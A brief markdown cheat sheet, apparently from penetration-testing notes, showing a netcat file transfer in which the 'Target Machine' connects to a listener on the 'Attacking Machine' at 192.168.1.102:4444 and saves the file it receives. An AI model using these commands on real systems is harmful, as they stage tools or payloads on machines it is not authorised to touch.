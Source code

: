 # Netcat

## Simple Transfer

### Create a Sesson on Attacking Machine

```bash
nc -lvp 4444 < file
```

### Target Machine

```bash
nc 192.168.1.102 4444 > file
```
